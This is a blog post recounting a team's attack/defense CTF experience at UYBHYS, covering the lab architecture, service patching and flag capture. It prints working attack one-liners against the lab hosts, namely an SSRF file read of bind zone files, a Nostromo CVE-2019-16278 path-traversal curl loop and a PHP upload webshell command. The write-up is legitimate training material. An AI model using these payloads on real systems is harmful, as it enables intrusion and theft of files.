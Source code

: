 ```yaml
---
layout: post
title: UYBHYS - Sea Monster Attack & Defense CTF
image: /images/SeaMonster/SeaMonsterBanner.png
---
```


Last week-end I teamed up with members from [Aperikube](https://www.aperikube.fr) for an Attack/Defense CTF which took place in Brest - France. In this "small" blog post I will write about this experience, the challenges and our methodology :)

![Banner]({{ site.baseurl }}/images/SeaMonster/SeaMonsterBanner.png "Banner"){: .center-image }

<!--more-->

Rules & informations about the CTF are available in the following PDF : [CTF_UYBHYS.pdf]({{ site.baseurl }}/files/CTF_UYBHYS.pdf)

## CTF Architecture

All teams had the same virtual machines to secure and attack.

- bastion.unlock.ctf : 172.16.1.20
- www.unlock.ctf : 172.16.1.10
- plc.unlock.ctf : 192.168.12.10
- win.unlock.ctf : 192.168.0.10
- fw.unlock.ctf (PfSense)

These machines host some services such as Web Servers, RDP etc... We had access to the source code of the binaries and the URL alive.unlock.ctf displayed the status of all teams services. In the following picture you can clearly see Team08 and Team10 didn't patch their RDP.

![Alive]({{ site.baseurl }}/images/SeaMonster/SeaMonsterAlive.png "Alive services"){: .center-image }

In the first 30 minutes we could access our machines and secure them without losing any points, then the scoreboard will update every 20 seconds to decrease your point if a service is down, you also loose point when a team is stealing one of your flag. Based on what we had we mapped the services linked to a flag and 2 columns to check if they were patched and/or exploited.

{% highlight sql %}
PORT      STATE    SERVICE       REASON         VERSION                             PATCHED     EXPLOIT
53                               Bastion        bind                                OK          OK       SSRF/zone
25/tcp                           PLC            vplc ESMTP Postfix (Debian/GNU)     OK     
80/tcp    open     http          Web            nginx 1.6.2                         OK          OK       sql    TODO RCE
502/tcp   open     modbus        PLC            Modbus TCP                          OK          OK       Modbus    
3232/tcp  open     http          Web            nostromo 1.9.6                      OK          OK       DirTravRCE        
3389/tcp  filtered ms-wbt-server Win                                                     
4141/tcp  open     oirtgsvc?     Bastion        whoareyou                           OK                   BOF ? 
4242                             Bastion                                            OK              
8080/tcp  open     http          Bastion        Apache httpd 2.4.10 ((Debian))      OK          KO       MySQL ?
9090/tcp  open     http          Web            nginx 1.6.2                         OK          OK       LDAP inj
45454/tcp open     unknown       Bastion        exploit 
{% endhighlight %}  


It was possible to trade some points for hints and insights in the Black Market, however nothing is guaranted: flags and hints might be wrong or misleading. We took the $0 trade, this gave us a list of the teams and their corresponding sea monster : 

{% highlight sql %}
TEAM1-CRABAL
TEAM2-MEDUSA
TEAM3-STARKA
TEAM4-PIKOR
TEAM5-PONIK
TEAM6-BALENOR
TEAM7-KRAKEN
TEAM8-SQUIDO
TEAM9-HYDROL
TEAM10-SHARKY
TEAM11-POULPY
TEAM12-GUMPAL
TEAM12-SNAKUS
TEAM14-MORSOS
TEAM15-RAYMOL
{% endhighlight %}


## win.unlock.ctf

I wasn't paying attention when the organizers told us the account was not `user` as stated in the PDF but in fact `Administrator`. Missing this information, made me try to exploit the machine in order to get an NT AUTORITY SYSTEM shell, I went to the easy path `Eternal Blue`.

![Windows Eternal Blue]({{ site.baseurl }}/images/SeaMonster/SeaMonsterWin.png "Windows Eternal Blue"){: .center-image }

### RDP - 3389

However the SMB service was not forwarded by the firewall and we couldn't exploit the service, it seems the intended way was to use `Bluekeep` as the RDP was checked by the bot and the team lose some points until we opened a Port Forward rule.

![Firewall]({{ site.baseurl }}/images/SeaMonster/SeaMonsterFirewall.png "Firewall services"){: .center-image }


## plc.unlock.ctf 

### Modbus - 502

This machine was an easy win, we used [plcscan](https://github.com/meeas/plcscan) to scan the Modbus service on port 502, the PLC description contained the flag.

![Modbus]({{ site.baseurl }}/images/SeaMonster/SeaMonsterModbusScan.png "Modbus services"){: .center-image }

![PLC]({{ site.baseurl }}/images/SeaMonster/SeaMonsterPLC.png "PLC description"){: .center-image }

{% highlight sql %}
team02.ctf:502 Modbus/TCP
  Unit ID: 0
    Device: diateam diateam virtual plc v42.1337 UYB{bda1c2b26927c2ac87e084fc5} 
  Unit ID: 255
    Device: diateam diateam virtual plc v42.1337 UYB{bda1c2b26927c2ac87e084fc5} 
team03.ctf:502 Modbus/TCP
  Unit ID: 0
    Device: diateam diateam virtual plc v42.1337 UYB{7ec413a0d19bf0a59a95d8874} 
  Unit ID: 255
    Device: diateam diateam virtual plc v42.1337 UYB{7ec413a0d19bf0a59a95d8874} 
[...]
team14.ctf:502 Modbus/TCP
  Unit ID: 0
    Device: diateam diateam virtual plc v42.1337 UYB{3e710c7179074e1a62be9de88} 
  Unit ID: 255
    Device: diateam diateam virtual plc v42.1337 UYB{3e710c7179074e1a62be9de88} 
{% endhighlight %}

## bastion.unlock.ctf

### SSRF - Port 8080

The web server on port 8080 allows the user to ping a machine, we runned the `grep` binary on the entire disk to find files containing flags and used the SSRF to display them with `http://team14.ctf:8080/index.php?ip=file://PATH_TO_FILE`.

It appears we could read the file `file:///etc/bind/zones/unlock.ctf.db`, so we scripted the exploitation of this challenge, however this was the flag for the `Port 53`...

{% highlight bash %}
for i in `seq 1 15`; do echo "Team"$i; curl -s http://team0$i.ctf:8080/index.php?ip=file%3A%2F%2F%2Fetc%2Fbind%2Fzones%2Funlock.ctf.db | grep UYB; done
{% endhighlight %}

![Bind]({{ site.baseurl }}/images/SeaMonster/SeaMonsterWWWssrfpath.png "Bind"){: .center-image }

We made the mistake to assume a simple filter like `$ip[0] == "1"` would be enough to stop any exploitation on our machine, however we missed the critical point. Another service was available on port 6666, which would display the content of the file using a specificly crafted URL. We saw the exploit in our logs and replayed the URL on the other team to get more flags.

## www.unlock.ctf 

### Nostromo - Port 3232

We used the CVE-2019-16278 to exploit the Nostromo service on the web machine.

{% highlight bash %}
$ for i in `seq 1 15`; do echo -n "Team"$i; curl -s "http://team0$i.ctf:3232//.%0D./.%0D./.%0D./.%0D./var/nostromo/conf/flag.txt" | grep UYB; done

[...]
Team2 UYB{bcf13245517c9fb5158719cec}
Team3 UYB{b454ae20caa9b07ab4e2c3c01}
Team4 UYB{41c0136228d5a7db614f89431}
[...]
{% endhighlight %}

Our patch might have been the worst of all patch history, we made a copy a the current index page with `curl` and then replaced the nostromo service with a `python -m SimpleHTTPServer 3232`. Dirty but efficient !

![Trade]({{ site.baseurl }}/images/SeaMonster/SeaMonsterTrade.jpg "Trade"){: .center-image }

### Custom website - Port 80 

First part of the exploitation was to create an account to access the website and find the SQL injection. The exploitation doesn't need to be logged in, the flag was stored as a plaintext password for the administrator. `SQLmap` and simple `for` loop were enough to exploit the vulnerability and dump the users table.

![SQL]({{ site.baseurl }}/images/SeaMonster/SeaMonsterSQL.png "SQL"){: .center-image }

The website contains multiple vulnerabilities, once logged as admin we can access the upload page, even though the HTML upload part was commented. 

![UPLOAD]({{ site.baseurl }}/images/SeaMonster/SeaMonsterWWWuploadcode.png "upload"){: .center-image }

The PHP backend is doing some checks but it is not enough to prevent the upload of a PHP file in the images directory, we used a payload from [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Upload%20Insecure%20Files/Picture%20Metadata/PHP_exif_system.jpg) and then executed our commands with `http://team12.ctf/images_import/PHP_exif_system.php?c=whoami`. Unfortunately the CTF ended when we got our command exec... (otherwise we might have been able to exploit EternalBlue against the Windows machine and grab the flag located in C:\flag).

Even if you had patched these vulnerabilities in the website, there were two backup folders `site.bak` and `site_save` to remove.

![Backup]({{ site.baseurl }}/images/SeaMonster/SeaMonsterWWWtree.png "Backup"){: .center-image }

## Final Thought

The CTF was great, the infrastructure worked flawlessly and the challenge difficulty was balanced enough to let the team understand, patch and exploit them during the 5 hours timeframe. We finished 1st but I would like to thank all the teams for their fair-play and the organisers for the event. Also thank you to the different sponsors ;)

![Scoreboard]({{ site.baseurl }}/images/SeaMonster/SeaMonsterScoreboard.jpg "Scoreboard"){: .center-image }
